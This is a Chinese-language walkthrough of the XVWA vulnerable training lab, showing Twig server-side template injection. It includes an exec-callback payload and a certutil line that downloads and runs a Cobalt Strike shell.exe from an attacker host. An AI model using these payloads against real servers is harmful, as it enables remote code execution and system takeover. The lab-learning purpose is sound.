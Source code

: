 # XVWA-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶场项目地址**
- https://github.com/s4n7h0/xvwa

---

**实验环境**

`环境仅供参考`

- phpstudy
- Microsoft Windows 10 企业版 LTSC - 10.0.17763
- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali 4.19.0-kali3-amd64
- CobaltStrike4.1

---

## 搭建/使用

这里使用 phpstudy 搭建, mysql5.1.60 + php5.2.17 环境

数据库需要手动创建 xvwa 库,并且修改 config.php,输入数据库连接的凭证

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/7.png)

---

## Server Side Template Injection (SSTI)

由于模板引擎支持使用静态模板文件，并在运行时用 HTML 页面中的实际值替换变量 / 占位符，从而让 HTML 页面的设计变得更容易。当前广为人知且广泛应用的模板引擎有 Smarty、Twig、Jinja2、FreeMarker 和 Velocity。

如果攻击者能够把模板指令作为用户输入进行注入，并且这些指令可以在服务器上执行任意代码的话，那么他们离服务器端模板注入攻击也不远了。

访问页面,尝试输入 `${{1+2}}` ,根据服务器响应来看，得到的结果为 $3 。根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 `{{}}` 的处理方式。

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/1.png)

根据提示, 使用 TWIG 模板引擎的 POC
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("whoami")}}
```

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/2.png)

**配合 CS 回弹一个 shell(windows)**

CS 监听

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/3.png)

生成回弹 payload

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/4.png)

上传到 kali 部署
```
python -m SimpleHTTPServer 8000
```

配合 payload 执行
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("certutil.exe -urlcache -split -f http://192.168.141.143:8000/shell.exe shell.exe & shell.exe")}}
```

成功上线

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/5.png)

查看服务器目录下,存在 shell.exe 文件

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/XVWA/6.png)
